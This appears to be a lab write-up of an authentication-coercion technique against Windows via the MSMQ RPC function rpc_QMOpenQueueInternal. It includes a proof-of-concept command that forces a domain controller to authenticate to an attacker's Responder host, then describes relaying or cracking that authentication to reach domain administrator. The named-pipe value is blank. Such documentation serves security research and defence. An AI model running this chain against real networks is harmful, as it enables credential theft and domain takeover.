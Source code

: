 # MS-MQMP - Remote call to rpc_QMOpenQueueInternal (opnum 19)

## Summary

+ **Protocol**: [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9)

+ **Protocol UUID**: fdb3a030-065f-11d1-bb9b-00a024ea5525

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`rpc_QMOpenQueueInternal`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8)

+ **Function operation number**: `19`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol (with uuid `fdb3a030-065f-11d1-bb9b-00a024ea5525` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQMP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9) and allows to call RPC functions of this protocol. We will then call the remote [`rpc_QMOpenQueueInternal`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
rpc_QMOpenQueueInternal('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT rpc_QMOpenQueueInternal(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwDesiredAccess,
   [in] DWORD dwShareMode,
   [in] DWORD hRemoteQueue,
   [in, out, ptr, string] WCHAR** lplpRemoteQueueName,
   [in] DWORD* dwpQueue,
   [in] GUID* pLicGuid,
   [in, string] WCHAR* lpClientName,
   [out] DWORD* pdwQMContext,
   [out] RPC_QUEUE_HANDLE* phQueue,
   [in] DWORD dwRemoteProtocol,
   [in] DWORD dwpRemoteContext
 );
```

## References

+ Documentation of protocol [MS-MQMP]: Message Queuing (MSMQ): Queue Manager Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/8e379aa2-802d-4fcc-b6a6-6203e4606fa9

+ Documentation of function `rpc_QMOpenQueueInternal`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqmp/de086803-3f83-44ec-9bd3-417216c171c8